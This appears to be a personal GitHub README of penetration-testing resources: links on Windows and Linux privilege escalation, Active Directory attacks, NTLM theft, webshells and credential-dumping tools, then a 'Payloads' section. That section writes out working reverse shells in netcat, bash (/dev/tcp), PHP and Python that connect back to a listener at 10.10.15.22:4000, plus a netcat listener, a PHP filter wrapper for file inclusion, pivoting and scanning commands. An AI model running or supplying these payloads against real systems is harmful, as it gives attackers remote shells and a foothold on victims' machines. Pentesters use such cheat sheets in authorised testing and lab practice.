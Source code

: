 # Resources
A collection of links and payloads I stored for quick access
# LINKS
## Overviews
- [**Pentesting Map**](https://www.offensity.com/en/blog/just-another-recon-guide-pentesters-and-bug-bounty-hunters/)
- [**Bug Bounty Writeups**](https://hackerone.com/hacktivity)
- [**Bug Bounty Cheatsheat**](https://github.com/EdOverflow/bugbounty-cheatsheet)

## Windows Pentesting
### Microsoft SQL Server 
- [**MSSQL Pentesting**](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
- [**Impacket mssqlclient Reverse Shell**](https://rioasmara.com/2020/05/30/impacket-mssqlclient-reverse-shell/)
### Windows Privillage Escalation
- [**NTLM Theft**](https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds)
- [**Windows Local Privillage Escalation**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#krbrelayup)
- [**Windows Local Privillage Escalation Checklist**](https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation)
- [**Juicy Potato Exploit**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato)
- [**Potatoes**](https://jlajara.gitlab.io/Potatoes_Windows_Privesc#sweetPotato)
- [**Pass The Hash**](https://www.netwrix.com/pass_the_hash_attack_explained.html)
- [**Print Spoofer**](https://github.com/itm4n/PrintSpoofer)
- [**Sweet Potato**](https://github.com/uknowsec/SweetPotato)
- [**Druva insyncCPHwnet64.exe POC**](https://github.com/tenable/poc/blob/master/druva/inSync/druva_win_cphwnet64.py)
- [**Druva explanation**](https://www.tenable.com/security/research/tra-2020-34)
## ACTIVE DIRECTORY
- [**AD Attack CHEATSHEET**](https://medium.com/@dw3113r/active-directory-attack-cheat-sheet-ea9e9744028d)
- [**AD Exploit CHEATSHEET**](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)
## Hash Cracking

- [**HashCat Beginner Guide**](https://resources.infosecinstitute.com/topic/hashcat-tutorial-beginners/)
- [**Hash Analyzer**](https://www.tunnelsup.com/hash-analyzer/)
- [**Zip and rar Cracking with john**](https://dfir.science/2014/07/how-to-cracking-zip-and-rar-protected.html)
## Log4J
- [**Log4j Exploatation**](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi)
## MetaSploit Framework 
- [**Meterpreter Shell Basics**](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-a-reverse-shell-in-metasploit.html#step-1-generate-the-executable-payload)
- [**Pivoting With Metasploit**](https://infinitelogins.com/2021/02/20/using-metasploit-routing-and-proxychains-for-pivoting/)
- [**Relaying With Metasploit**](https://medium.com/axon-technologies/how-to-implement-pivoting-and-relaying-techniques-using-meterpreter-b6f5ec666795)
## Payloads
- [**Apache Tomcat RCE through WAR file**](https://null-byte.wonderhowto.com/how-to/hack-apache-tomcat-via-malicious-war-file-upload-0202593/)
- [**Server SideTemplate Injection Payloads**](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- [**Jenkins Pentesting**](https://book.hacktricks.xyz/cloud-security/jenkins#code-execution)
- [**Payloads Of All Things**](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [**MSSQL Injection Cheatsheat**](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
- [**XP_cmdshell cheatsheat**](https://www.hackingarticles.in/mssql-for-pentester-command-execution-with-xp_cmdshell/)
- [**LOCAL FILE INCLUSION**](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
- [**Python Library Hijacking**](https://medium.com/@klockw3rk/privilege-escalation-hijacking-python-library-2a0e92a45ca7)
## Reverse Engineering
- [**Write-up for ROP exploit**](https://shakuganz.com/2021/06/08/hackthebox-you-know-0xdiablos-write-up/)
- [**Return Oriented Programing**](https://bufferoverflows.net/rop-manual-exploitation-on-x32-linux/)

## Linux Privillage Escalation
- [**GTFO bins**](https://gtfobins.github.io/)
- [**LXD Privillage Escalation**](https://www.hackingarticles.in/lxd-privilege-escalation/)
- [**LXD Exploatation**](https://steflan-security.com/linux-privilege-escalation-exploiting-the-lxc-lxd-groups/)
- [**Escape from Restrictd Shells**](https://0xffsec.com/handbook/shells/restricted-shells/)
- [**Traitor**](https://github.com/liamg/traitor)
- [**Python Library Hijacking on Linux**](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8)
## PIVOTING && TUNNELING
- [**Pivoting with Chisel**](https://ap3x.github.io/posts/pivoting-with-chisel/)
- [**Tunneling with Chisel and SSF 0XDF**](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)
- [**NOTES ABOUT TUnneling and Pivoting**](https://0xdf.gitlab.io/2019/01/28/pwk-notes-tunneling-update1.html)
- [**SSH Tunneling**](https://0xdf.gitlab.io/2018/06/10/intro-to-ssh-tunneling.html)
- [**Shades of Tunneling Article**](https://karol-mazurek95.medium.com/the-shades-of-tunneling-a8b6ce1d7fed)
- [**Tunneling and Port FOrwarding**](https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding#chisel)
## Shells
- [**Webshells**](https://github.com/BlackArch/webshells)
- [**Reverse Shell Generator**](https://www.revshells.com/)
- [**NC.EXE**](https://github.com/int0x33/nc.exe/blob/master/nc.exe)
## Tools
- [**SecLists**](https://github.com/danielmiessler/SecLists)
- [**Responder**](https://github.com/SpiderLabs/Responder)
- [**Impacket**](https://github.com/SecureAuthCorp/impacket)
- [**SQL Map**](https://github.com/sqlmapproject/sqlmap)
- [**XSS Strike**](https://github.com/s0md3v/XSStrike)
- [**ffuf**](https://github.com/ffuf/ffuf)
- [**WinPeas**](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [**Rogue JNDI**](https://github.com/veracode-research/rogue-jndi)
- [**RsaCtfTool**](https://github.com/RsaCtfTool/RsaCtfTool)
- [**Ghidra**](https://github.com/NationalSecurityAgency/ghidra/releases)
- [**OllyDBG**](https://www.ollydbg.de/)
- [**checksec**](https://github.com/slimm609/checksec.sh)
- [**LaZagne**](https://github.com/AlessandroZ/LaZagne)
- [**File Magic Numbers**](https://gist.github.com/leommoore/f9e57ba2aa4bf197ebc5)
# Payloads
## SSHuttle connection
```
sshuttle -vr balthazar@10.10.110.100 172.16.1.0/24 -x 172.16.1.100
```
## PHP Wrapper
```php://filter/convert.base64-encode/resource=```
## Profiling Password Lists
### CEWL
```ULTIMATE WAY OF CREATING A WORDLIST
1.DIRECTORY BRUTEFORCING
feroxbuster -eknr --wordlist $HOME/tools/crimson/words/dir -u https://<target_domain>/ -o ferox.txt
2. PREPARE FIRST PART OF THE cewl.txt
cat ferox.txt | grep 200 | grep -v "png\|\.js" | cut -d "h" -f2-100 | sed "s/^/h/g" >> urls.txt
for url in $(cat urls.txt); do echo $url && cewl -d 5 $url >> temp_cewl.txt;done
cat temp_cewl.txt | sort -u >> cewl.txt && rm temp_cewl.txt
```
## Nmap
### Null Scan 
```nmap  -n -sN 10.10.110.0/24```
## Local Webserver

### Python

```python
python -m SimpleHTTPServer
```

```python
python3 -m http.server
```

### PHP
```php
php -S 0.0.0.0:8000
```

## Shells

### Set Listener 
```bash
nc -lnvp 4000
```

### [Reverse Shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
#### netcat:
```bash
nc -e /bin/sh 10.10.15.22 4000
```
#### PHP:
```<?php $sock = fsockopen("ip","port");$proc = proc_open("/bin/sh -i", array(0=>$sock,1=>$sock,2=>$sock),$pipes);?>```
#### Bash
```bash
bash -i >& /dev/tcp/10.10.15.22/4000 0>&1
```
#### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.22",4000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
### Interactive Shell

#### Bash
```python
python(3) -c 'import pty; pty.spawn("/bin/bash")'
```
```cmd
Ctrl-Z
```
```cmd
stty raw -echo
```
```
fg
```
